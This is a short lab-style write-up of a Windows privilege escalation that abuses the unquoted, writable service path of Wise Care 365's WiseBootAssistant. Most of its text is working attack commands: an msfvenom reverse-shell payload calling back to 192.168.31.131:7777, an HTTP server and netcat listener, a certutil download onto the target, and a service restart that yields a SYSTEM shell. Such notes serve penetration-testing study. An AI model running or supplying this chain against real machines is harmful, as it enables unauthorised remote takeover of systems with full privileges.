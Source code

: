 ![](3-eth-hackassets/2024-07-14_19-07-03_629.png)

```bash
WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected
    YOU CAN MODIFY THIS SERVICE: AllAccess
    File Permissions: Administrators [AllAccess]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\Wise\Wise Care 365 (Administrators [AllAccess])
```

- Drop an exploit binary into the `C:\Program Files (x86)\Wise\` directory

```bash
# Generate an exploit
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.31.131 LPORT=7777 -f exe > Wise.exe

python3 -m http.server 80

# New terminal
nc -nvlp 7777
```

```bash
# Target reverse shell
cd C:\Program Files (x86)\Wise\
certutil.exe -urlcache -f http://192.168.31.131/Wise.exe Wise.exe

# Stop the running service
sc stop WiseBootAssistant
sc query WiseBootAssistant
sc start WiseBootAssistant
```

- Reverse shell as `system`

![Revershel shell](3-eth-hackassets/2024-07-14_19-16-46_630.png)